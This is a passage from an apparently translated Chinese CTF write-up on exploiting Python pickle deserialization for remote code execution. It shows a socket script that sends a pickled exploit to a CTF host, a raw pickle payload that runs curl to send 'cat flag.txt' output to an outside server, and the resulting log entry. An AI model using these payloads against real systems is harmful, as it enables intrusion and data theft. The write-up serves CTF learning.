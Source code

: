 def serialize_exploit():
    shellcode = cPickle.dumps(Exploit())
    return shellcode
 
def insecure_deserialize(exploit_code):
    cPickle.loads(exploit_code)
 
if __name__ == '__main__':
    shellcode = serialize_exploit()
    print shellcode
 
    soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    soc.connect(("ganon.39586ebba722e94b.ctf.land", 8000))
    print soc.recv(1024)
 
    soc.send(shellcode)
    print soc.recv(1024)
soc.close()
</pre>
<p nodeIndex="96"><span nodeIndex="264"><strong nodeIndex="265"><span nodeIndex="266">漏洞利用PoC</span></strong></span></p>
<pre class="brush:python;toolbar:false" nodeIndex="97">
# python python_pickle_poc.py
cposix
system
p1
(S"curl https://crowdshield.com/rce.txt?`cat flag.txt`"
p2
tp3
Rp4
.
</pre>
<p nodeIndex="98"><span nodeIndex="267">让我惊讶的是，这份漏洞利用代码不仅能够正常工作，而且我还可以直接在Apache日志中查看到flag的内容！</span></p>
<p nodeIndex="99"><span nodeIndex="268"><strong nodeIndex="269"><span nodeIndex="270">远程Apache服务器日志</span></strong></span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="100">
34.214.16.74 - - [03/Sep/2017:11:15:02 -0700] "GET /rce.txt?UsuallyLinkPrefersFrostedFlakes HTTP/1.1" 404 2102 "-" "curl/7.38.0"
</pre>


<hr nodeIndex="278"><p nodeIndex="103"><span nodeIndex="279">以上就是本文章的全部内容了，我们给大家介绍了两个Python反序列化漏洞样本，而我们可以利用这种漏洞来在远程主机/应用程序中实现远程代码执行（RCE）。我个人对CTF比赛非常感兴趣，在比赛的过程中我不仅能找到很多乐趣，而且还可以学到很多东西，但是出于时间和其他方面的考虑，我不可能将所有的精力都放在CTF上，但我建议大家有机会的话多参加一些这样的夺旗比赛。</span></p>


<hr nodeIndex="287"><p nodeIndex="106"><span nodeIndex="288">我们的团队名叫“</span><span nodeIndex="289">SavageSubmarine</span><span nodeIndex="290">”，我们再次比赛中的最终排名为第七名。</span></p>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-09-13-1889661755/3"/></div>
</div>